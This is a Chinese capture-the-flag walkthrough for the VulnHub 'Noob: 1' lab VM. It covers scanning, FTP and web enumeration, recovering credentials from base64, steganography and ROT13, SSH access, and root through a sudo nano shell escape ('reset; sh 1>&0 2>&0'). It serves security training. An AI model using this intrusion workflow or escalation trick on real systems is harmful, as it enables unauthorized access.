靶场搭建
靶机下载地址：Noob: 1 ~ VulnHub
下载后使用 VMware 或 VirtualBox 导入，网络设置为 NAT 模式。攻击机使用 Kali Linux。
信息收集
主机发现
使用 arp-scan 发现目标主机：
arp-scan -l
端口扫描
nmap --min-rate 10000 -p- 192.168.21.132
版本扫描
nmap -sV -sT -sC -O -p21,80 192.168.21.132
可以看到 FTP 里面有文件，Web 是 PHP。开放端口：21（FTP）、80（HTTP）。
漏洞扫描
nmap --script=vuln -p21,80 192.168.21.132
FTP 信息收集
尝试通过匿名登录 FTP：
ftp 192.168.21.132
查看 80 端口页面寻找线索：

下载文件进行分析：

发现 Base64 编码字符串：
echo "Y2hhbXA6cGFzc3dvcmQ=" | base64 --decode
解码后得到 champ:password，但 FTP 无法使用此凭证登录。
Web 渗透
Web 登录
访问 80 端口，是一个登录页面：

使用刚获取的密码尝试登录，成功进入：

目录扫描
发现 About Us 页面有文件下载功能，使用 dirb 扫描目录：
dirb http://192.168.21.132
发现 /downloads 目录。
RAR 解压分析
下载 downloads.rar，赋予权限并解压：
chmod 777 downloads.rar
unrar e downloads.rar
得到三个文件：

查看 ascii 文件内容：

发现 python 文件，提示使用 steghide 进行隐写提取：

隐写分析
Steghide 提取
对 funny.jpg 进行隐写提取：
steghide extract -sf funny.jpg
得到 key.txt：

对 funny.bmp 进行隐写提取（密码 sudo）：

ROT13 解码
提示要对文件进行 rotate，使用 ROT13 解码：

解码后得到 SSH 凭证 wtf:wtf?!。
SSH 登录与 user flag
使用 SSH 连接（注意端口为 55077）：
ssh wtf@192.168.21.132 -p 55077
找到 user flag：

权限提升
发现新凭证
在系统中发现一个脚本，包含另一个用户的用户名和密码：

切换到该用户：

nano sudo 提权
查看 sudo 权限：
sudo -l
发现可以使用 nano 以 root 权限执行命令。nano 编辑器允许通过 sudo 以二进制文件形式运行，不会放弃提升的权限。
利用方法（GTFOBins nano）：
sudo nano
# Ctrl+R, Ctrl+X
# 输入: reset; sh 1>&0 2>&0
成功获取 root 权限。
Root Flag
在 /root 目录下查看 root flag：
